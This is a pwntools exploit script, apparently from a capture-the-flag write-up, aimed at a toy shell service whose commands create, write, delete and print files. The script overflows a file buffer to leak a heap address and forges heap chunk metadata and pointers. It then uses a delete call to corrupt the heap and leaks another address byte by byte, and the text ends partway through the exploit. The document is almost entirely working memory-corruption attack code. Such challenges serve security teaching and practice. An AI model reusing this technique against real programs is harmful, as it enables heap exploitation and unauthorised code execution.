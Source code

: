 ```

def touch(file):
    p.sendlineafter("$ ", "touch " + file)


def echo(file, content, type=0):
    if type:
        p.sendlineafter("$ ", "echo &gt; " + file)
    else:
        p.sendlineafter("$ ", "echo &gt;&gt; " + file)
    p.send(content)


def rm(file):
    p.sendlineafter("$ ", "rm " + file)


def cat(file):
    p.sendlineafter("$ ", "cat " + file)


def ls():
    p.sendlineafter("$ ", "ls")


for i in range(9):
    touch("flag" + str(i))


raw_input()
echo("flag"+ str(0), b"a"*0x100, 1)
echo("flag"+str(0), b"b"*0x20)
cat("flag" + str(0))
p.recvuntil("b"*0x20)
heap_address = u64(p.recvline().strip().ljust(8, b"\x00"))
log.success("heap address is `{``}`".format(hex(heap_address)))

echo("flag"+ str(0), b"a"*0x100, 1)
payload = b"b"*0x8 + p64(0x31) + b"flag1".ljust(0x10, b"\x00")
payload += p64(heap_address + 0x100 + 0x30) + p64(0x100) + p64(0) # flag2 buf - 0x10
echo("flag" + str(0), payload)

echo("flag" + str(1), p64(0) + p64(0x140*4 + 1 - 0x30), 1)

rm("flag" + str(2))


address = b""
for i in range(8):

    echo("flag"+ str(0), b"a"*0x100, 1)
    payload = b"b"*0x8 + p64(0x31) + b"flag1".ljust(0x10, b"\x00")
    payload += p64(heap_address + 0x100 + 0x30 + 0x10 + i) + p64(0x100) + p64(0)
    echo("flag" + str(0), payload)
    cat("flag" + str(1))
    p.recvuntil("Content: ")
    res = p.recvline().strip()
    print(res)
    if len(res) == 0:
        address += b"\x00"
    else:
        address += p8(res[0])
# cat("flag" + str(1))
```